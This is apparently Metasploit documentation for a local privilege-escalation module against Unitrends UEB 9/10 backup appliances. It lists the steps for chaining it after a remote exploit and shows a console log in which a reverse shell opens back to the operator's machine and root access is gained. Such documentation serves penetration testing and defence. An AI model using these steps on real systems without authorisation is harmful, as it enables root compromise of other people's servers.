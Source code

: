 ## Vulnerable Application

  Unitrends UEB 9/10 local privesc

  Still works on the demo version of the application available here:
  http://free-vmware-backup.unitrends.com/Unitrends-Free-VMware.ova

  This exploit leverages bpserverd proprietary protocol to issue commands
  as root.

## Verification Steps

  1. Get a shell with exploit/linux/http/ueb10_api_systems
  2. ```use exploit/linux/local/ueb_priv_esc ```
  3. ```set session [SESSION]```
  4. ```exploit```
  5. A highpriv meterpreter session should have been opened successfully

## Scenarios

### UEB 10.0 on CentOS 6.5

```
msf > use exploit/linux/local/ueb_priv_esc
msf exploit(linux/local/ueb_priv_esc) > set session 4
session => 4
msf exploit(linux/local/ueb_priv_esc) > exploit

[*] Started reverse TCP handler on 15.0.0.177:4444
[*] Writing payload executable to '/tmp/pEFoythF'
[*] Writing privesc script to '/tmp/CTZSovJR'
[*] Fixing permissions
[*] Sending stage (857352 bytes) to 10.20.1.202
[*] Meterpreter session 5 opened (15.0.0.177:4444 -> 10.20.1.202:45188) at 2018-04-27 16:44:28 -0400
[+] Deleted /tmp/pEFoythF
[+] Deleted /tmp/CTZSovJR

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0

```
